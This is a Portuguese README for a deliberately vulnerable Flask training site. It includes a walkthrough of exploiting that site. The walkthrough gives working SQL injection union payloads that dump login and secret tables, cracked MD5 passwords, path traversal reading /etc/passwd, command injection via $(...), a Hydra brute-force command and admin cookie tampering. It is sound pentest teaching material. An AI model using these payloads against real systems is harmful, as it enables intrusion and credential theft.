# Python SafeSite

Esta aplicação foi desenvolvida com o propósito de
treinar suas habilidades em penetration testing.

É um site simples que pode ser explorado de diversas
formas diferentes. Foi desenvolvido em Python com Flask
e SQLite.



## Rodando dentro do Docker

Para rodar dentro do Docker, tenha o Docker instalado, o
GNU Make e o Git.

```bash
git clone https://github.com/wesleyit/python_safesite.git
cd python_safesite
make build  # para criar a imagem
make start  # vai iniciar o container
```

Com o container rodando, basta acessar em `http://localhost:8080`.

## Rodando direto na máquina

Para os corajosos, é possível rodar sem container.
Para isso, é necessário ter o Python3 instalado,
o Venv, o PIP, o Git e o GNU Make. O app foi testado
apenas no Linux, não sabemos se funciona diretamente
no Mac OS ou Windows, ok?

```bash
git clone https://github.com/wesleyit/python_safesite.git
cd python_safesite
make venv  # para criar o virtual env
source env/bin/activate  # chaveando para o venv
make pip  # baixar as dependências do Python3
make run  # iniciar em modo direto
```

## Disclaimer

> Esta aplicação tem falhas de segurança e pode comprometer o servidor onde for instalada. Cuidado.

## Explorando as Vulnerabilidades

Para tornar o processo de exploração mais fácil, pode-se colocar uma entrada no arquivo `/etc/hosts`, de modo que a aplicação seja acessada por um hostname ao invés de um IP. Isso facilita o processo de reuso de scripts.

Para isso, edite o hosts e adicione a linha como mostra a imagem abaixo, lembrando de ajustar para o IP da máquina onde a aplicação será instalada:

```bash
sudo vim /etc/hosts

24.23.22.21   empresasegura.lab

(esc :wq)
```

---

### Página Inicial

Logo na página inicial há um campo de pesquisa que permite buscar por artigos que contenham uma determinada palavra-chave. 



Ao colocar uma aspa dupla (") no campo de busca, o site quebra. Isso mostra que o site é vulnerável a ataques SQL Injection. Um agravante é que o desenvolvedor deixou a página de Debug habilitada, mostrando detalhes do erro e inclusive a engine (SQLite3). 



Com a informação do SQL é possível compor um ataque que seja adicionado à cláusula where da query:

- A query utilizada para trazer os posts, exibida pela página de debug:

  - `SELECT * FROM posts WHERE Content LIKE "%"%";`

- A query que iremos buscar:

  - `SELECT * FROM posts WHERE Content LIKE "%X" union select 1, 2 --%";`

Para chegarmos nisso, precisamos manipular o campo de texto progressivamente até descobrirmos a entrada que busca os dados no SQLite e reflete no HTML da página, nos campos com o título e com o texto de cada post do blog:

- `X" union select 1, 2 --`
- `X" union select name, sql from sqlite_master where type='table' --`
- `X" union select name || ': ' || card, password from secrets --`
- `X" union select login || ': ' || email, password from logins --`





Obtivemos os hashes dos logins, que podem ser facilmente quebrados no [https://crackstation.net/](https://crackstation.net/):

```
084e0343a0486ff05530df6c705c8bb4: guest@guest
084e0343a0486ff05530df6c705c8bb4

21232f297a57a5a743894a0e4a801fc3: admin@admin
0192023a7bbd73250516f069df18b500

263bce650e68ab4e23f28263760b9fa5: maria@gmail.com
3a1f9e20f1beac9b81a1e18e08b7f442

dc599a9972fde3045dab59dbd1ae170b: carlos@hotmail.com
a07bda8fd5e39462b4c3d860a36f6b4d
```

| Hash                             | Tipo | Senha       |
|----------------------------------|------|-------------|
| 084e0343a0486ff05530df6c705c8bb4 | md5  | guest       |
| 0192023a7bbd73250516f069df18b500 | md5  | admin123    |
| 3a1f9e20f1beac9b81a1e18e08b7f442 | md5  | unicornio   |
| a07bda8fd5e39462b4c3d860a36f6b4d | md5  | corinthians |


---

### Sobre Nós

A página Sobre Nós apresenta três arquivos de texto que são exibidos ao serem selecionados.
Ao clicar em um deles, a URL fica da seguinte forma:

[http://empresasegura.lab:8080/about?doc=termo_de_uso](http://empresasegura.lab:8080/about?doc=termo_de_uso)



Vamos explorar esse parâmetro:

- `?doc=x`: Tela em branco
- `?doc=/etc/passwd`: Tela em branco

Provavelmente não vemos nada porque esse campo recebe o nome do arquivo e faz prepend de um caminho e append de uma extensão. Logo, termo_de_uso deve virar algo como /pasta/termo_de_uso.txt. Se isso for verdade, podemos testar com diretórios relativos + null bytes e também com múltiplos nomes de arquivos.

- [http://empresasegura.lab:8080/about?doc=../../../../../etc/passwd%00](http://empresasegura.lab:8080/about?doc=../../../../../etc/passwd%00)  Quebra por causa do null byte.
- [http://empresasegura.lab:8080/about?doc=/etc/hostname /etc/fstab /etc/passwd /etc/mtab /etc/hosts](http://empresasegura.lab:8080/about?doc=/etc/hostname%20/etc/fstab%20/etc/passwd%20/etc/mtab%20/etc/hosts) mostra o conteúdo de todos os arquivos, menos o primeiro e o último.
- Será que neste contexto ele repassa o path para o shell? Se sim, podemos tentar executar comandos... [http://empresasegura.lab:8080/about?doc=../../../../../etc/passwd%20$(echo%20/etc/hosts)%20x](http://empresasegura.lab:8080/about?doc=../../../../../etc/passwd%20$(echo%20/etc/hosts)%20x). Game over!

---

### Contato



Estes ataques XSS não funcionam no Chrome.

No primeiro formulário é possível executar um XSS, mas ele não é persistido.

No segundo, entretanto, ele é persistido, mas não é executado.

Para fazer o ataque, a vítima tem que clicar em um link feito para roubar a sessão ou capturar o browser, com um software como o Beef, por exemplo.

---

### Cadastro

Ao criar um usuário, é possível fazer o upload de um arquivo qualquer que não seja uma foto para o servidor. 



No caso de um site PHP, por exemplo, este arquivo pode ser uma shell que permita acesso remoto ao servidor. Neste caso, por ser uma aplicação python, é mais difícil de explorar desta forma, mas esta vulnerabilidade por ser utilizada para enviar um payload do Venom, um script de shell reverso, ou algo que possa ser executado usando as outras falhas encontradas.

---

### Área Restrita

Com o THC-Hydra, Burp Suite ou OWASP ZAP é possível facilmente quebrar as senhas, já que não há um limitador de tempo.



```
hydra -V -s 8000 \
    -l admin -P /opt/wordlists/common_it_passwords.txt \
    empresasegura.lab \
    http-post-form \
    '/login:login=^USER^&senha=^PASS^:Login incorreto!'
```

---

### Perfil

Vale o mesmo que para o Área Restrita.



---

### Falhas Globais (múltiplas páginas)

Existem falhas que funcionam na seção como um todo, ou que não estão em páginas listadas no menu.

#### Cookie Tampering (or Poisoning)

Ao criar um usuário de testes chamado cleber com senha 12345, os seguintes cookies foram setados após o login:

- pyverysafeid: 5c675a11f4a8474c3d75ff158570850a (este é cleber em MD5)

- pyverysafelogin: ee11cbb19052e40b07aac0ca060c23ee (este é a palavra user)

Se o hash é a palavra user, o que acontece se eu mudar para admin em MD5?

21232f297a57a5a743894a0e4a801fc3 -> admin

Ao trocar o cookie e dar refresh, os privilégios da sessão são elevados instantaneamente!



#### Directory Search

Como não há nenhum recurso que impeça múltiplos requests sequenciais, ferramentas como o DIRB, o Nikto e o ZAP podem fazer ataques fuzzy ou via listas para encontrar diretórios ocultos.

`dirb http://empresasegura.lab:8080/`

Achamos um `/status` oculto.

